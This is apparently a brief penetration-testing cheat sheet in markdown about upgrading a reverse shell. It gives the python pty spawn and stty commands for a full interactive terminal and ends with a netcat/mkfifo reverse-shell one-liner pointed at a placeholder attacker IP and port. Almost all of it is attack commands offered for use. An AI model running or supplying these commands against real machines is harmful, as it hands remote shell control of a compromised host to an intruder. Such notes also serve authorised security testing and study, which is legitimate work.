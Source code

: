 # Upgrade reverse shell

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
stty -a 
```

```bash
export TERM=xterm-256color
stty rows 38 columns 169
^Z
```

```bash
stty -raw echo; fg
```

# Useful reverse-shell
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1|nc <MY_IP> <PORT> >/tmp/f```